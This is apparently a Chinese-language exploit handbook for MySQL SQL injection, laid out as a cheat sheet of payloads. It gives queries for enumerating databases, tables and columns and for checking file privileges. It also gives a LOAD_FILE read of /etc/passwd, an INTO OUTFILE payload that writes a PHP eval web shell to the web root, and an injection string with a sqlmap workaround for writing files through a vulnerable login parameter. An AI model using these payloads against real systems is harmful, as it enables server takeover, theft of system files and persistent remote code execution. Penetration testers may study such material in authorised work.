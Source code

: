 # EXP手册-SQL injection(MySQL) 

php:  
## SQL语句基础知识
### 0x01查询语句
#### 1.查询数据库名
```
SELECT database();    
SELECT schema_name FROM information_schema.schemata;   
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)    
``` 
#### 2.查询表名
```
SELECT table_name FROM information_schema.tables WHERE  table_schema=database() 
```  
#### 3.查询列名   
tablename为表名
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'   
```    
### 0x02文件读写
前置条件：file权限
   
#### 1.查询权限
判断方法：
`SELECT @@secure_file_priv`   
- Mysql>=5.5.53 默认为NULL，即默认禁止导入导出
- Mysql<5.5.53 默认为空，即默认无限制
或者查询用户权限：     
>username为用户名
```
SELECT file_priv FROM mysql.user WHERE user = 'username';//需要root权限    
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';     
```
#### 2.读文件   
```
SELECT LOAD_FILE('/etc/passwd');
```
- LOAD_FILE()函数操作文件的当前目录是@@datadir 
- MySQL用户必须拥有对此文件读取的权限
- 文件大小必须小于 max_allowed_packet。
- @@max_allowed_packet的默认大小是1047552 字节


#### 3.写文件
INTO OUTFILE/DUMPFILE
```
SELECT '<? @eval($_POST[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
```
*注入拼接写文件payload——sqlmap写文件为空解决方法*：    
sqlmap写文件为空原因在于查询结果为空所以结尾也没有添加自定义字符     
因此，1.构造正确查询有结果;2.拼接查询结果
```
//输入参数如下，前面查询的语句省略，这是where后的语句
//后面是字段拼接字符和行拼接字符
admin' or 'a'='a' LIMIT 0,1 INTO OUTFILE '/var/www/html/re.php' FIELDS TERMINATED BY '-'  LINES TERMINATED BY '<?phpinfo();?>';
```
